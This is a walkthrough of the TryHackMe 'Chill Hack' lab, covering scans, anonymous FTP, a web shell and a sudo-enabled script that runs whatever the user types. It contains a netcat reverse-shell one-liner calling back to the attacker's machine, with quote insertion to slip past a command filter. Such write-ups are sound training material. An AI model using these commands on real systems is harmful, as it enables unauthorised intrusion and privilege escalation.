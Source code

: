 # 🏴 TryHackMe - Chill Hack

> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.132.2
![alt text](image.png)
**The login and register buttons aren't working**

### Nmap Scan
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ nmap -sC -sV -oN Nmap/initial 10.10.132.2  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 14:04 EDT
Nmap scan report for 10.10.132.2
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.197.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8a:90:81:1f:8d:f9:5d:dd:42:93:9d:18:a6:e8:44:80 (RSA)
|   256 c7:45:73:aa:8f:4a:e0:85:f2:72:76:3a:42:40:46:dd (ECDSA)
|_  256 01:fd:6b:cf:04:b1:84:9d:f9:d6:a6:7a:0f:bc:a6:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
**Ports open 21 - ftp, 22 shh, 80 http**
>**FTP** is open with Anonymous, let's see if we can find something interesting 
```bash  
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ ftp 10.10.132.2                    
Connected to 10.10.132.2.
220 (vsFTPd 3.0.5)
Name (10.10.132.2:robert): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16016|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||41095|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |*********************************************************|    90      861.67 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (1.63 KiB/s)
ftp> 
```
>cat note.txt
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ cat note.txt                             
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
>Anurodh might be an user

### GoBuster Enuemeration 
![alt text](image-1.png)
>/secret looks interesting, let's see
![alt text](image-2.png)
>web-shell, nice, let's try with reverse shell if we can execute commands
![alt text](image-3.png)
>ls is not working, we have to go deeper
>reverse shell, we are in r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.197.1 4444 >/tmp/f, using " " to bypass the filter 
![alt text](image-4.png)

>the shell is non interactive, let's import python3 -c 'import pty;pty.spawn("/bin/bash")'

![alt text](image-5.png)

>Before starting my enumeration, First I want to know that if I can run any commands as sudo. Here, I find I can run a script named .helpline.sh as apaar.                                                                                           

```bash
www-data@ip-10-10-132-2:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-132-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-132-2:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

>cat .helpline.sh

```bash
www-data@ip-10-10-132-2:/home/apaar$ cat .helpline.sh
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```